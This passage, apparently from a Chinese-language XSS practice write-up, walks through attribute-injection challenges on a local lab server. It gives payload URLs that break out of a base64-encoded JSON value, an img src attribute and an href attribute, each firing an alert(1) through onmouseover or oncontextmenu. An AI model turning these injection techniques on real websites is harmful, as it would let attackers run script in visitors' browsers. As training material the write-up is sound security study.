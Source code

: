 那就没啥好说的，跟上一题一样，然后将内容base64编码即可

```
{"value":"' onmouseover='alert(1)"}
```

```
eyJ2YWx1ZSI6Iicgb25tb3VzZW92ZXI9J2FsZXJ0KDEpIn0=
```



最终payload

```
http://127.0.0.1/xss/attr/alt/b64/json?b64json=eyJ2YWx1ZSI6Iicgb25tb3VzZW92ZXI9J2FsZXJ0KDEpIn0=
```





### 输出存在于HTML节点属性中，但是不再on属性中(IMG SRC)

原始链接：

```
http://127.0.0.1/xss/attr/src?src=/static/logo.png
```

这很明显就是文件的路径

所以构造如下：

```
http://127.0.0.1/xss/attr/src?src=/static/logo.png" onmouseover="alert(1)
```



### 输出存在于HTML节点属性中，但是不再on属性中(HREF)

原始链接依旧：

```
http://127.0.0.1/xss/attr/href?href=/static/logo.png
```

![image-20250223152415010](../../_media/image-20250223152415010.png)

构造payload如下：

```
http://127.0.0.1/xss/attr/href?href='oncontextmenu='alert(1)
```

onmouse的属性挺多的



